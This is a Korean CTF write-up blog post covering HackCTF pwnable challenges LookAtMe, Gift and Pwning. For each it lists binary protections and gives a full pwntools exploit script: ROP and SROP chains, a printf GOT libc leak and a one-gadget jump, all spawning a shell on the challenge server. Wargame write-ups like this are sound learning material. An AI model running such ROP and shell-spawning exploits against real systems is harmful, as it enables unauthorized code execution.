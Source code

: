 ```yaml
---
layout: post
title:  "HackCTF Pwnable - fifth line"
excerpt: "for All Clear HackCTF"
date:   2020-06-014
categories: [wargame]
comments: true
---
```


### 0x0 Beginner_Heap

binary :

exploit :

아직 힙은 멀었다.. 



### 0x1 LookAtMe

binary:

| canary   | fortify  | nx      | pie      | relro   |
| -------- | -------- | ------- | -------- | ------- |
| disabled | disabled | enabled | disabled | partial |

그냥 간단하게 srop를 이용하여 해결

exploit :

```python
from pwn import *
p = remote("ctf.j0n9hyun.xyz", 3017)
e = ELF("./lookatme")

pop_eax = 0x80b81c6
pppr = 0x806f050
int80 = 0x806f630
bss = e.bss()

p.recvuntil("o\n")

pay = 'A' * 28
pay += p32(pop_eax)
pay += p32(0x3)
pay += p32(pppr)
pay += p32(8)
pay += p32(bss)
pay += p32(0)
pay += p32(int80)

pay += p32(pop_eax)
pay += p32(0xb)
pay += p32(pppr)
pay += p32(0)
pay += p32(0)
pay += p32(bss)
pay += p32(int80)

p.sendline(pay)

p.send("/bin/sh\x00")

p.interactive()
```

### 0x2  Gift

binary :

| canary   | fortify  | nx      | pie      | relro    |
| -------- | -------- | ------- | -------- | -------- |
| disabled | disabled | enabled | disabled | disabled |

exploit :

```python
from pwn import *

p = remote("ctf.j0n9hyun.xyz",3018)

pr = 0x804866b
gets_plt = 0x80483d0
binsh = "/bin/sh\00"

p.recvuntil("Hey guyssssssssss here you are: ")
sh_addr = int(p.recv(9),16)
p.recv(1)
sys_addr = int(p.recv(10),16)

pay1 = 'a'
p.sendline(pay1)

pay2 = 'A'  * 136
pay2 += p32(gets_plt)
pay2 += p32(pr)
pay2 += p32(sh_addr)

pay2 += p32(sys_addr)
pay2 += 'A' * 4
pay2 += p32(sh_addr)

p.sendline(pay2)
p.sendline(binsh)
p.interactive()
```

그냥 간단하게 binsh을 입력할 주소와 system 주소를 출력해줘서 rop를 했다. 

### 0x3 Pwning

binary :

| canary   | fortify  | nx      | pie      | relro   |
| -------- | -------- | ------- | -------- | ------- |
| disabled | disabled | enabled | disabled | partial |

exploit : 

```python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3019)
e = ELF('./pwning')

printf_plt = e.plt['printf']
printf_got = e.got['printf']
main = e.symbols['main']
syscall = 0x80484d0
pr = 0x8048676

p.recv()
p.sendline('-1')

pay = 'A' *(0x2c + 0x4)
pay += p32(printf_plt)
pay += p32(main)
pay += p32(printf_got)

p.sendline(pay)

p.recvuntil('\x08\x0a')

libc = u32(p.recv(4)) - 0x00049020

p.recv()
p.sendline('-1')
p.recv()

pay = 'A' *( 0x2C + 4)
pay += p32(libc + 0x3a812)

p.sendline(pay)

p.interactive()
```

이 문제는 srop랑 원샷가젯을 이용한 풀이도 도전을 해봤는데 실패했다. 

+p.s

뭔가 페이로드를 작성할 때, 값을 분별해서 읽어오는걸 자꾸 헷갈린다.. 열심히 공부하자

릭도 열심히 공부해야 할 것 같다. 